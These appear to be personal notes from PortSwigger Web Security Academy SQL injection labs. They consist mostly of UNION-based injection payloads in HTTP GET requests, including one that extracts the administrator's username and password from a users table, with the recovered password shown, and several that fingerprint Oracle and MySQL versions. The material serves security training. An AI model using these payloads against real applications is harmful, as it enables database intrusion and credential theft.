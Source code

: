 ```py
GET /filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users+WHERE+username='administrator'-- HTTP/1.1
# administrator
# jl4w29p7cx6lqfm2of19

# https://accc1f7c1ff0e89d800368a20084008b.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,+password+FROM+users--

```

---

# LAB: Examining the database in SQL injection attacks

[Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)


| Database type    | Query                   |
| ---------------- | ----------------------- |
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |


```py
# Lab: SQL injection attack, querying the database type and version on Oracle:
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--


GET /filter?category=Pets'+UNION+SELECT+'a','b'+FROM+DUAL-- HTTP/1.1
# HTTP/1.1 200 OK

GET /filter?category=Pets'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- HTTP/1.1
# HTTP/1.1 200 OK

'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production,
# PL/SQL Release 11.2.0.2.0 - Production,
# CORE 11.2.0.2.0 Production,
# TNS for Linux: Version 11.2.0.2.0 - Production,
# NLSRTL Version 11.2.0.2.0 - Production'



# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft:

GET /filter?category=Lifestyle'+UNION+SELECT+NULL,NULL# HTTP/1.1

GET /filter?category=Lifestyle'+UNION+SELECT+'a','b'# HTTP/1.1

GET /filter?category=Lifestyle'+UNION+SELECT+@@version,NULL# HTTP/1.1

8.0.21


```

---